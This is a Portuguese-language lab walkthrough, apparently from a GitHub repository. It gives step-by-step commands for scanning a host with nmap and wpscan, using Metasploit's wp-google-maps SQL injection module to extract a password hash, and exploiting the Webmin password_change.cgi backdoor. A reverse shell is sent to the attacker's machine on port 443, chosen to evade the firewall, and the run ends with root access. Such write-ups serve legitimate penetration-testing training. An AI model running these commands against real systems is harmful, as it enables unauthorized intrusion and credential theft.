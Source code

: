 # First Pass Recon
"'
1º sudo nmap -sS -T4 'Seu IP'
"'
"Utilizar o IP do Kali para descobrir os outros dispostivos na rede, e assim saber os serviços que estão rodando."

'''
2º wpscan  —url ‘IP ALVO’
'''
"Utilizando o "wpscan", para assim levantar os plugins que estão rodando dentro da aplicação em questão. 
 Analisando então os plugins, pode-se localizar o plugin 'wp-google-maps'."

'''
3º sudo nmap -sV -p- -v -Pn 'IP ALVO' 
> -sV : Obtém a versão dos serviços rodando no alvo.
> -p- : Realiza um scanner em todas as 65535 portas.
> -v : Modo verboso.
> -Pn : Ignora o ICMP. 
'''
"Localize na saída analise os serviços utilizados pela aplicação e de atenção ao 'Webmin' 
 Dentro do terminal no Kali Linux utilize 'searchsploit webmin' Lista os exploits"

'''
4º sudo msfconsole
'''
"Fornece informações sobre vulnerabilidades de segurança e auxilia em testes de penetração e desenvolvimento de assinaturas IDS."

'''
5º msf5 > search wp-google-maps
'''
"Busca na ferramenta exploits para os plugins levantados no passo 2, localize o modo auxiliar para SQLinjection no wp-google-maps."

'''
6º msf5 > use 0  
'''
"Efetua no Metasploit o uso do auxiliar para SQLinjection."

'''
7º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
'''
"Mostra as opções e quais dados devem ser setados no exploit."

'''
8º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set rhosts 'IP ALVO' 
rhosts ⇒ ip do alvo
'''
"Adiciona o IP do alvo ao exploit para SQLinjection" 

'''
9º msf5 auxiliary (admin/http/wp-google-maps-sqli) > run 
'''
"Efetua o SQLinjection, trazendo no console que existe uma credencial salva no server, 
 capturando assim o ID e HASH da senha do usuário. 

'''
10º msf5 auxiliary (admin/http/wp-google-maps-sqli) > search webmin 
'''
"O MSF lista os exploits, no caso veja que foi encontrado o 'webmin password_change.cgi Backdoor', 
 exploit que será explorado nesse lab."

'''
11º msf5 auxiliary (admin/http/wp-google-maps-sqli) > use 2
'''
"Comando para iniciar o exploit que será utilizado."

'''
12º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
'''
"Mostra todas as opções que se pode setar no exploit, mostrando também que já veio setado um 'payload' no caso em questão, 
 caso não viesse, o usuário deveria fazer o 'payload'."

'''
13º msf5 auxiliary (admin/http/wp-google-maps-sqli) > info 
'''
"Analisa as informações do exploit, mostrando a versão."

'''
14º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set forceexploit true 
'''
"Caso a versão seja diferente o comando 'force' faz com que o msf execute o exploit independente da versão." 

'''
15º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
'''
"Analise as informações a serem setadas, como no caso o 'rhosts, lhost, lport e ssl'."

'''
16º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set rhosts 'IP ALVO'
> rhost: IP DO ALVO (Para a conexão remota)
'''

'''
17º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set lhost 'IP KALI' 
> lhost: IP KALI (Para receber a conexão reversa)
'''

'''
18º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set lport 443
> lport: 443 (Número da porta onde irá simular a conexão com a web, evitar setar número alto para burlar o firewall.)
'''

'''
19º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set ssl true 
> ssl: TRUE (Confirma para que assim tenha a conexão)
'''

'''
20º msf5 auxiliary (admin/http/wp-google-maps-sqli) > run 
'''
Após o msf5 abrir a sessão com o alvo, digite 'whoami' caso seja 'root' digite no terminal -> shell <- acesso realizado. 
